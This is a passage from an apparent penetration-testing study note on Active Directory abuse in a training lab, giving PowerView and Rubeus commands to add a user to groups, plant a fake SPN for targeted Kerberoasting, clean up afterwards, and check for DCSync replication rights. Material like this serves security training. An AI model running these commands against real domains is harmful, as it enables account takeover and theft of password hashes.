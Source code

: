 Now we can add that user to other groups:
```console
PS C:\zeropio> Get-ADGroup -Identity "<GROUP>" -Properties * | Select -ExpandProperty Members
PS C:\zeropio> Add-DomainGroupMember -Identity '<GROUP>' -Members '<TARGET USER>' -Credential $Cred2 -Verbose
PS C:\zeropio> Get-DomainGroupMember -Identity "<GROUP>" | Select MemberName
```

At this point, we should be able to leverage our new group membership to take control over other user. If we cannot change the password of the third user, we can try a Kerberoasting attack with the property **GenericAll**. Create a fake SPN:
```console
PS C:\htb> Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
```

Now use Rubeus to perform the Kerberoasting:
```console
PS C:\zeropio> .\Rubeus.exe kerberoast /user:<THIRD TARGET> /nowrap
```

### Cleanup

If we want to cleanup this process we must:
1. Remove the fake SPN we created 
2. Remove the second user from the group we added him
3. Set the password for the second user back to its original value (if we know it) or have our client set it/alert the user

To remove the fake SPN:
```console
PS C:\zeropio> Set-DomainObject -Credential $Cred2 -Identity <THIRD USER> -Clear serviceprincipalname -Verbose
```

Next, we'll remove the user from the group:
```console
PS C:\zeropio> Remove-DomainGroupMember -Identity "<GROUP>" -Members '<USER>' -Credential $Cred2 -Verbose
```

## DCSync 

If we have access with a user with DCSync privileges we can steal AD password database, by the **Directory Replication Service Remote Protocol**. This allow us to mimic the DC and retrieve user NTLM password hashes. We need to request a DC to replicate passwords via the **DS-Replication-Get-Changes-All** extended right. Domain/Enterprise Admins and default domain administrators have this right by default. 

We can check if a user has this privilege:
```console
PS C:\zeropio> Get-DomainUser -Identity adunn  |select samaccountname,objectsid,memberof,useraccountcontrol |fl
```

We can confirm it with **Get-ObjectACL**:
```console
PS C:\zeropio> $sid= "<SID OF USER>"
PS C:\zeropio> Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl
```
